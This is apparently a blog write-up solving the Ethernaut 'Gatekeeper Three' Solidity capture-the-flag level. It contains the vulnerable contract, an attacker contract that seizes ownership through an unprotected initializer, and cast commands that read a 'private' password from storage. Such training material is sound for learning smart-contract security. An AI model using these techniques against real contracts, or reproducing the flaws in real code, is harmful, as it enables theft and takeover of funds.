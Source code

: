```yaml
---
title: Ethernaut - Gatekeeper Three - Solution
date: '2024-06-09'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Gatekeeper Three CTF
---
```


# Ethernaut - Gatekeeper Three - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

## Solution

The goal of this level is to register yourself as an `entrant`.

To solve the challenge, we can use the following attacker contract:

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperThree {
    function construct0r() external;
    function enter() external;
}

contract GatekeeperThreeAttacker {
    IGatekeeperThree public immutable VICTIM;

    constructor(address victim) {
        VICTIM = IGatekeeperThree(victim);
    }

    function becomeOwner() external {
        VICTIM.construct0r();
    }

    function enter() external {
        VICTIM.enter();
    }

    receive() external payable {
        revert("No donations pls");
    }
}
```

After deploying this contract, we can use its `becomeOwner()` function to claim ownership of the victim.
This will allow us to pass `gateOne()`.

To pass `gateTwo()`, we must call `getAllowance()` with the correct password.
By looking at the level's code, we can see that we first need to create a `SimpleTrick` contract using the `createTrick()` function.
This is easily achieved via the Ethernaut console:

```javascript
await contract.createTrick()
```

Next, we can determine `SimpleTrick`'s address via:

```javascript
await contract.trick()
```

In my case, it's 0x2379f9794f70B7384f6Ea9baeDC5A212daF9c9E2.
Knowing this address, we can now inspect `SimpleTrick`'s third storage slot, which contains the "private" password:

```bash
cast storage 0x2379f9794f70B7384f6Ea9baeDC5A212daF9c9E2 2 --rpc-url $SEP_RPC_URL
# Result: 0x000000000000000000000000000000000000000000000000000000006665ed70
```

Since `getAllowance()` requires us to provide the password as a `uint256`, we need to convert this output accordingly:

```bash
cast to-dec 0x000000000000000000000000000000000000000000000000000000006665ed70
# Result: 1717955952
```

We can now call `getAllowance()`, passing in 1717955952 for the `password` parameter.

Now, to pass first condition of the third gate, we send 0.0011 ether to the level instance (e.g., using MetaMask).
The reverting `receive()` function we included in our attacker ensures that we also pass the second condition. 

Finally, we can call `enter()` on our attacker contract to complete the challenge.
